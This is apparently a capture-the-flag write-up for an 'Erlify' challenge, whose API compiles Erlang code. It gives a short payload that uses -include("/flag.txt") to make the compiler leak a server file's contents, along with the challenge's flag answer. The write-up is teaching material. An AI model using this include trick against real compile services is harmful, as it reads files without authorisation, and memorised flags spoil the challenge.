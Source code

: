 # Erlify

### Category

Misc

### Description

I've made a simple API to compile erlang program, but I don't run it so.. I'm safe ?<br>

If you found a vulnerability, try to leak /flag.txt (don't forget to add Hero{} around the flag you've found)
<br>

Format : **Hero{flag}**<br>
Author : **Worty**

### Write up

You have to read the erlang programming manual to see that if you include a program or lib that is incorrect, part of the content is leak :)

Payload :

```
-module(hello_world).
-compile(export_all).
-include("/flag.txt").

hello() ->
    io:format("hello world~n")
```


### Flag

```Hero{Erl4ngC4nL34kAtC0mp1l3T1m3}```
